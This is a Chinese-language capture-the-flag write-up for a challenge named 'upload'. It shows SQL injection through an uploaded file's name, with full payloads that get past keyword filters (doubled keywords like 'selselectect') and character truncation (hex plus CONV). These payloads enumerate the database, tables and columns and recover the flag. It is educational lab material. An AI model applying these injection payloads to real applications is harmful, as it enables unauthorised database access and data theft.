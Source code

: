 # upload
## 题目描述
如题目环境有问题，稍等片刻后刷新即可。
## 思路
http://220.249.52.133:59493  
点开题目链接，是个注册页面，一如既往的随便注册，然后登录，发现有回显，是把用户名回显了，并且有上传文件的地方：  
![avatar](./picture/upload_1.png)  
一开始以为是要在这个地方注入，因为和前端时间做的 unfinish 很相似，结果试了下，并不行，他直接把我用户名，毫无处理的回显出来了：  
![avatar](./picture/upload_2.png)  
题目是 upload，那应该是在上传文件上下功夫，尝试了一句话木马，并不知道访问路径，并且也没办法通过 bp 绕过后缀检查。然后想到文件名注入，这个在《代码审计》的第64页：  
>因为一般程序员都不会注意到对文件名进行过滤，但是又需要把文件名保存到数据库中，所以就会存在SQL注入漏洞。>  
如此，就是构造文件名了，首先直接尝试最简单的 select database()：  
0'+(select database())+'.jpg  
回显了0：  
![avatar](./picture/upload_3.png)  
难不成是存在过滤？再试试：  
0'+(selselectect DAtabase())+'.jpg  
还是回显0，以为是思路错了，就去看了 wp，发现这个思路没错，但是文件名要复杂些，因为该网站对文件名还是做了一些过滤的……  
```sql
0'+(selselectect CONV(substr(hex(dAtaBase()),1,12),16,10))+'  
```
***
这里稍作解释，selselectect 是为了绕过关键字过滤，后面的 from 是同样的道理。对数据库名进行 hex 编码是为了绕过字母截断，本题遇到字母就会进行截断，这与外面的 CONV() 函数的使用是一个道理，因为十六进制的表示中存在 a b c d e f 六个字母，会被截断。substr() 是为了绕过科学计数法的表示，当 substr(hex(dAtaBase()),1,13) 时，效果如下：  
![avatar](./picture/upload_4.png)  
这样，我们无法获得准确的数字。
***
![avatar](./picture/upload_5.png)  
先把得到的数字转十六进制，然后进行 hex 解码，发现是有意义的字母：web_up，继续找出数据库名，然后再找表名和列名即可：  
```sql
//表名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(table_name) frofromm information_schema.tables where table_schema='web_upload')),1,12),16,10))+'
//列名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(column_name) frofromm information_schema.columns where table_name='hello_flag_is_here')),1,12),16,10))+'
```
最后，拼接解码后的列名得到 flag：  
!!_@m_Th.e_F!lag  


## 补充知识
1. CONV(N, from_base, to_base)  
CONV() 函数的目的是把 N 从 from_base 进制转换为 to_base 进制。本题之所以用到，是因为本题会过滤掉数字之外的字符，并在此处截断，以至无法获得正确的答案。   
2. 本题得到的十进制数字必须先解码，然后再拼接，如果先拼接，再转十六进制、解码的话，会解码失败。

